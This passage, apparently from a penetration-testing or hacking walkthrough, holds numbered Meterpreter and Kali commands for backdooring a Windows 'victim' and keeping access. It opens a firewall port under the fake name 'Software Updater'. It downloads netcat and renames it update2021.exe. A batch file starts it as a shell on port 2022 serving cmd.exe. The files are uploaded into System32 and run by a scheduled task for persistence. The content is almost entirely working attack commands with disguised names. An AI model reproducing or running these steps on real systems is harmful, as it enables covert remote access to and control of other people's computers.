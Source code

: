 ```bash
# 16. Create firewall rule to allow backdoor traffic
meterpreter> shell
C:\Windows\system32> netsh advfirewall firewall add rule name="Software Updater" dir=in action=allow protocol=TCP localport=2022

# 17. Create batch file for backdoor on Kali
┌──(kali㉿kali)-[~/Desktop]
└─$ cat > update.bat << EOF
@echo off
start /min update2021.exe -L -d -p 2022 -t -e cmd.exe
EOF

# 18. Download and rename netcat
┌──(kali㉿kali)-[~/Desktop]
└─$ wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
└─$ unzip netcat-win32-1.11.zip
└─$ cp nc.exe update2021.exe

# 19. Upload files to victim
meterpreter> mkdir C:\\Windows\\System32\\updatelist
meterpreter> cd C:\\Windows\\System32\\updatelist
meterpreter> upload update2021.exe
meterpreter> upload update.bat

# 20. Create scheduled task for persistence
meterpreter> run scheduleme -m 1 -c C:/Windows/System32/updatelist/update.bat
```

